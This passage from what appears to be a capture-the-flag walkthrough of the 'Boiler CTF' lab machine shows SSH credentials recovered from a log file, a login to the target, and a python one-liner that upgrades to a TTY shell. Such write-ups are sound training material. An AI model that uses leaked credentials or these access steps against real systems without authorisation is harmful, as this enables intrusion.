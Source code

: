 There is an intersting file called `log.txt`. Let's see its content:

<p align="center"><img src="./files/log.png"></p>

Finally some good news! We have the credentials for the ssh service: `basterd:superduperp@$$`

Intersting file: `log.txt`


# Questions #2

You can complete this with manual enumeration, but do it as you wish

## 2.1 - Where was the other users pass stored(no extension, just the name)?

Let's connect to the machine via ssh on port 55007. The first thing I did was spawning a TTY shell using a python one-liner:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Boiler_CTF/files]
└─$ ssh basterd@$IP -p 55007
basterd@10.10.253.160's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.


Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
$ which python      
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
basterd@Vulnerable:~$
~~~
